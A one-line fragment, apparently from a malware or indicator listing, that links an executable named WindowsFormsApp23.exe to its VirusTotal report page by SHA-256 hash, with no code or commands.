- [WindowsFormsApp23.exe](https://www.virustotal.com/gui/file/abb3e568c5708db78f2b75530cf8dcc1e9f3e44b7b6861a353368db7c0de7ff2)

---
